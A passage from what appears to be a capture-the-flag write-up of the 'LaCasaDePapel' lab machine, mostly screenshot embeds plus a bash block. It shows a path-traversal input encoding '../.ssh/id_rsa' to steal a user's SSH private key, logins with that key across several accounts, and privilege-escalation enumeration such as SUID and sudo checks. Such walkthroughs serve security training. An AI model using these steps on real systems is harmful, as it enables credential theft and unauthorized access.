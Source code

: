 <br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lacasadepapel_writeup/LaCasaDePapel_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

It is always good to have it written down (which I always do) or if one has the ability to remember every detail of the machine's **Engagement**, to use all the information collected to be able to **Escalate privileges** or **pivot** to users with more privileges. I remember that the user **professor** had his private key to connect via **SSH** in his home directory, so he exploited the vulnerability again to download it to my machine. After setting the correct permissions I succeed in accessing the machine, but before using the basic system enumeration commands, I'm going to perform a **Console treatment** to make my work more efficient. I don't succeed in finding much information at first, so I have to **try harder**.

```bash
echo -n "../.ssh/id_rsa" | base64 -w 0

mv /home/al3j0/Downloads/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa berlin@10.10.10.131
ssh -i id_rsa dali@10.10.10.131
ssh -i id_rsa nairobi@10.10.10.131
ssh -i id_rsa oslo@10.10.10.131
ssh -i id_rsa professor@10.10.10.131
# :)

export TERM=xterm
whoami
hostname
hostname -I
hostname -i
id
groups
uname -a
lsb_release -a
cat /etc/os-release
find \-perm -4000 2>/dev/null
getcap / -r 2>/dev/null
sudo -l
```
